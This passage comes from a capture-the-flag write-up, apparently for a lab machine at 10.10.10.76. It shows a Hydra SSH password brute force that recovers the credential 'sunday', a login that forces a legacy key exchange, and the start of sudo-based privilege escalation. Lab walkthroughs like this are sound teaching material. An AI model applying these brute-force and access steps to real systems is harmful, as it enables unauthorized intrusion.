 * **-l:** username
* **-P:** password file
* **-s:** port

We get back the following result showing us that Sunny’s password is “sunday”.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
....
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
....
```

SSH into Sunny’s account.

```text
ssh -p 22022 sunny@10.10.10.76
```

We get the following error.

```text
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

The error tells us that the client and server were unable to agree on the key exchange algorithm. The server offered three legacy algorithms for key exchange. So we’ll have to choose one of these algorithms in order to login.

```text
ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```

* **-oKexAlgorithms:** enable a key exchange algorithm that is disabled by default

We’re in! Locate the user.txt flag and try to view it.

```text
sunny@sunday:~$ find / -name  user.txt 2>/dev/null
/export/home/sammy/Desktop/user.txtsunny@sunday:~$ cat /export/home/sammy/Desktop/user.txt 
cat: /export/home/sammy/Desktop/user.txt: Permission denied
```

We need to escalate our privileges to Sammy.

## Privilege Escalation <a id="252c"></a>

Run the following command to view the list of allowed commands that the user can run with root privileges.

```text
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

We can run the /root/troll command as root. This is obviously a custom command so let’s run it to see what it’s doing \(we don’t have read access to it\).
